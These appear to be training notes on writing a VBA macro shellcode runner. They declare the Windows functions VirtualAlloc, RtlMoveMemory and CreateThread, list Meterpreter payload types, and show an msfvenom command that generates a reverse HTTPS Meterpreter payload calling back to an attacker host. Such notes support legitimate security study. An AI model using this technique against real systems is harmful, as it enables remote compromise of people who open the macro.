 This works!

![](./messagebox.png)

# VBA Shellcode Runner

We need to implement 3 functions - VirtualAlloc, RtlMoveMemory, CreateThread

```
LPVOID VirtualAlloc(
 LPVOID lpAddress,
 SIZE_T dwSize,
 DWORD flAllocationType,
 DWORD flProtect
);
```

To declare them

```vb
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As 
LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As 
Long) As LongPtr
```

Now for our vbaapplication payload
Difference between staged and non staged meterpreter payload

```vb
Payload Staged  Stageless
Reverse TCP	windows/meterpreter/reverse_tcp	windows/meterpreter_reverse_tcp
Reverse HTTPS	windows/meterpreter/reverse_https	windows/meterpreter_reverse_https
Bind TCP	windows/meterpreter/bind_tcp	windows/meterpreter_bind_tcp
Reverse TCP IPv6	windows/meterpreter/reverse_ipv6_tcp	windows/meterpreter_reverse_ipv6_tcp
```

amd note the use of exitfuntion below -


```bash
┌──(root㉿kali)-[/home/kali]
└─# msfvenom -p windows/meterpreter_reverse_https LHOST=10.10.6.12 LPORT=443 EXITFUNC=thread -f vbapplication > vba_payload.txt
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 176220 bytes
Final size of vbapplication file: 570462 bytes

```

Arguments fo virtualAlloc - we should supply the value "0" as lpadress, dwSize - to be set dynamically. 

we will use 0x3000 whuch equates to MEM_COMMIT and MEM_RESERVE 
hex notation in vba is &H3000
